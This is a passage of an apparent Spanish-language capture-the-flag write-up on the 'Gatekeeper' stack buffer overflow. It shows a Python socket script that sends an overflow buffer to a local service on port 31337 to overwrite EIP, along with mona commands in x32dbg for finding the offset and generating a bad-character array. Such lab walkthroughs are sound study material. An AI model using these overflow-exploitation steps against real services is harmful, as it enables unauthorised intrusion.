 ```

```C:\Users\xpl\Desktop>C:\Users\xpl\AppData\Local\Programs\Python\Python310\python.exe gatekeeper.writeup.py```

*xpl por que estoy ejecutando x32dgb en un windows.

![16](https://user-images.githubusercontent.com/107126653/172840003-058d226a-aed6-4c7b-91b1-293a7b11a625.png)

Si esta todo correcto deberìa salir asì.

Ahora vamos al x32dbg y en EIP hacemos copy y en log utilizaremos este comando ```mona.mona("pattern_offset EIP")``` en lugar de EIP pegamos ( no hace falta copiar y pegar pero es una buena praxis).

![17](https://user-images.githubusercontent.com/107126653/172841149-844eb476-8c1d-4fa6-a8d1-004de3492eea.png)
Ahora nos indicará una cantidad de bytes que llena hasta llegar a EIP , que tenemos que introducir.

modificamos ahora en el .py
```
import socket

ip = "127.0.0.1"
port = 31337


#badchars 
buf   = "\x41" * 146
buf  += "\x42" * 4
 

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

 

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buf + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
CONTROL + S
Tiene que quedar asì.

*para que todo sea mas clara la mecanica sera mayormente serà: modificamos el python, debug restart , ejecutamos el py. del CMD.

Vemos en CPU . Que EIP esta al completo de 42 (B) En hexadecimal.
![18](https://user-images.githubusercontent.com/107126653/172842784-2bf73437-6ea0-401b-b5e4-166d3a15e9a4.png)


para ASEGURARNOS de que la pila esta correctamente posicionada hacemos lo siguiente CLICK DERECHO :

![19 2](https://user-images.githubusercontent.com/107126653/172844121-5a38c6bc-6fdd-4492-828f-d69b7798fdd7.png)


![19](https://user-images.githubusercontent.com/107126653/172843848-dcc8699c-7580-44cc-831d-2efdc16053d7.png)
 
 Vemos que todo esta bien posicionado y SEGUIMOS!
 
 Ahora vamos a buscar los bytes  que al programa No le gustan mediante este comando que introduciremos en el LOG:
 ``` mona.mona('bytearray -cpb "\\x00"')```
```
